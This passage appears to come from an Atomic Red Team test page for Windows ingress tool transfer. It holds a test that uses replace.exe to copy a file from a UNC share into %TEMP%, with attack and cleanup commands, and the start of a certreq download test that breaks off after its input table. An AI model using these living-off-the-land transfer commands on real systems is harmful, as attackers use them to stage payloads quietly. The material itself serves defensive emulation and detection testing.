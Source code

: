 


<br/>
<br/>

## Atomic Test #24 - Lolbas replace.exe use to copy UNC file
Copy UNC file to destination
Reference: https://lolbas-project.github.io/lolbas/Binaries/Replace/

**Supported Platforms:** Windows


**auto_generated_guid:** ed0335ac-0354-400c-8148-f6151d20035a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| replace_cab | UNC Path to the cab file | path | &#92;&#92;127.0.0.1&#92;c$&#92;AtomicRedTeam&#92;atomics&#92;T1105&#92;src&#92;redcanary.cab|
| Path_replace | Path to replace.exe | path | C:&#92;Windows&#92;System32&#92;replace.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
del %TEMP%\redcanary.cab >nul 2>&1
#{Path_replace} #{replace_cab} %TEMP% /A
```

#### Cleanup Commands:
```cmd
del %TEMP%\redcanary.cab >nul 2>&1
```





<br/>
<br/>

## Atomic Test #25 - certreq download
Use certreq to download a file from the web

**Supported Platforms:** Windows


**auto_generated_guid:** 6fdaae87-c05b-42f8-842e-991a74e8376b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| local_path | Local path to place file | string | %temp%&#92;Atomic-license.txt|
| remote_file | URL of file to copy | url | https://example.com|
